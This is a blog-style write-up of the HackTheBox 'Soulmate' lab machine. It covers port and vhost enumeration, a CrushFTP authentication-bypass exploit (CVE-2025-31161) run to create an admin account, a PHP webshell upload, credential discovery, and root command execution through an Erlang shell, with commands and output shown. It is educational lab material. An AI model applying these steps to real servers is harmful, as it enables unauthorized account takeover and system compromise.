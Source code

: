 ```yaml
---
layout: ../../layouts/post.astro
title: Soulmate Write-Up
description: A comprehensive writeup of the HackTheBox Soulmate machine.
dateFormatted: Oct 19, 2025
topic: ["Red Team"]
technologies: ["Linux", "HackTheBox"]
---
```


![pwn](https://i.imgur.com/W5RvROp.png)

## Overview

In HackTheBox's Soulmate machine, 


## Conducting initial recon through nmap to discover any open ports:

To confirm my VPN is connected correctly, and confirm the machine is reachable, I pinged the target machine IP address.

![ping](https://i.imgur.com/MqDxE2Z.png)


 `nmap -sV -p 1-65535 -T4 -A -v -Pn 10.10.11.86`

```bash
Nmap scan report for 10.10.11.86
Host is up (0.067s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://soulmate.htb/
```
### Findings
- Port 80 (HTTP)
- Port 22 (SSH)

### Troubleshooting 

Port 80 appears to be running nginx 1.18.0. Initially I tried just visiting `http://10.10.11.86`, which kept returning server not found errors. After doing some research, I found out I add to add the ip to the `/etc/hosts` file for it to correctly resolve to `http://soulmate.htb` For future notice, when the nmap scan returns something along the lines of "Did not follow redirect to `<hostname>`, you need to add the ip and hostname to the hosts file.

After adding the ip/hostname to the hosts file, we can view the web server running a dating website.

![soulmate](https://i.imgur.com/IwjdT7w.png)

### Directory Enumeration

Since port 10.10.11.86:80 is open and resolves to http://soulmate.htb, I ran a gobuster script against a wordlist to discover any subdomains/directories.

```bash
┌──(assess㉿kali)-[~/ctf/htb/soulmate]
└─$ sudo gobuster vhost -u http://soulmate.htb -w /usr/share/seclists/Discovery/DNS/bug-bounty-program-subdomains-trickest-inventory.txt -append-domain -t 100
[sudo] password for assess: 
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                       http://soulmate.htb
[+] Method:                    GET
[+] Threads:                   100
[+] Wordlist:                  /usr/share/seclists/Discovery/DNS/bug-bounty-program-subdomains-trickest-inventory.txt
[+] User Agent:                gobuster/3.8
[+] Timeout:                   10s
[+] Append Domain:             true
[+] Exclude Hostname Length:   false
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
ftp.soulmate.htb Status: 302 [Size: 0] [--> /WebInterface/login.html]
Progress: 1613291 / 1613291 (100.00%)
===============================================================
Finished
===============================================================

```

GoBuster found a hit on `ftp.soulmate.htb/WebInterface/login.html`

Visting the URL, it appears to be a login screen for Soulmate's FTP server, CrushFTP.

Examining the network traffic, I believe I was able to identify the version of CrushFTP `11.W.657`.

![logincrush](https://i.imgur.com/nOr1h80.png)

Conducting vulnerability research on this version of CrushFTP led me to exploit-db, giving further details into CVE-2025-31161.

### Vulnerability

CrushFTP before 10.8.4 and 11.3.1 allows unauthenticated HTTP(S) port access and full admin takeover through a race condition and header parsing logic flaw in the AWS4-HMAC authorization mechanism. 

Exploiting this allows bypassing authentication and logging in as any known user (e.g. crushadmin)

-----------

Conducting further research into CVE-2025-31161 led me to a publicly available PoC.

```
https://github.com/Immersive-Labs-Sec/CVE-2025-31161
```
Running our exploit:

```bash
┌──(assess㉿kali)-[~/ctf/htb/soulmate/CVE-2025-31161]
└─$ python3 cve-2025-31161.py --target_host ftp.soulmate.htb --port 80 --new_user adminv2 --password admin123
[+] Preparing Payloads
  [-] Warming up the target
  [-] Target is up and running
[+] Sending Account Create Request
  [!] User created successfully
[+] Exploit Complete you can now login with
   [*] Username: adminv2
   [*] Password: admin123.
```

### Exploitation

Now that we have created and logged into our new admin account, we can succesfully login to the FTP web server.

Navigating to the admin console, there is a User Manager tab that shows all of the users with access to the CrushFTP server. Reviewing the users, it looks like Ben works in Soulmates IT/Web Department.

![users](https://i.imgur.com/1feG9lY.png)

Using the admin interface, I reset Ben's password and logged into his account and navigated to the webprod directory. I don't know how to write custom shells, so I found a PHP webshell on [GitHub](https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985) and uploaded it into the webProd directory.

![webshell](https://i.imgur.com/lEcS1Xo.png)

Through the webshell, we were able to execute [LinPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) and gain access to Ben's credentials in clear text, and logging in via SSH, gave us the user flag.

![user](https://i.imgur.com/pPppTGW.png)


### Gaining Root Access

Additionally, in the linPEAS output, we found several mentions of Erlang running on port 2222.

To login, we used Ben's original SSH credentials, and was able to gain access into the Erlang service running on root permissions.

Doing research on command execution in Erlang, I came across a vuln.be article explaining OS command execution.

![erlang](https://i.imgur.com/4j8yMOA.png)

So, lets try and find the root flag using this command execution

```bash
┌──(assess㉿kali)-[~/ctf/htb/soulmate]
└─$ ssh ben@soulmate.htb
ben@soulmate.htb's password: 
Last login: Sun Oct 26 17:28:59 2025 from 10.10.14.200
ben@soulmate:~$ ls
user.txt
ben@soulmate:~$ cat user.txt
[DEPRECATED]
ben@soulmate:~$ ls
user.txt
ben@soulmate:~$ ssh ben@localhost -p 2222
ben@localhost's password: 
Eshell V15.2.5 (press Ctrl+G to abort, type help(). for help)
(ssh_runner@soulmate)1> os:cmd("id").
(ssh_runner@soulmate)1> os:cmd("id").

"uid=0(root) gid=0(root) groups=0(root)\n"
(ssh_runner@soulmate)2> os:cmd("cat /root/root.txt").
(ssh_runner@soulmate)2> os:cmd("cat /root/root.txt").

"[DEPRECATED]\n"
(ssh_runner@soulmate)3> 
```
### Ending Thoughts

